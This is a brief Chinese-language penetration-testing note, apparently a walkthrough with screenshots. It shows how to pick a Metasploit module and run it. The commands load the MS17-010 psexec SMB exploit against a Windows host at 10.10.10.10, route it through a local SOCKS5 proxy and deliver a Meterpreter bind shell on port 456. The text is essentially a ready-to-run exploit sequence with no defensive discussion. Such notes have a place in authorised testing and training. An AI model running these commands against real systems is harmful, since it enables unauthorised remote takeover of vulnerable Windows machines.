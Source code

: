 找msf的漏洞利用模块

![img](assets/1660656474735-9466a69e-fd7e-4fa5-9229-0bbae1572644.png)

选择一个模块使用

use exploit/windows/smb/ms17_010_psexec

setg Proxies socks5:127.0.0.1:1080

set payload windows/x64/meterpreter/bind_tcp

set rhosts 10.10.10.10

set lport 456

run

![img](assets/1660656499741-95df0cc5-cb3f-473f-9767-264fb4199284.png)
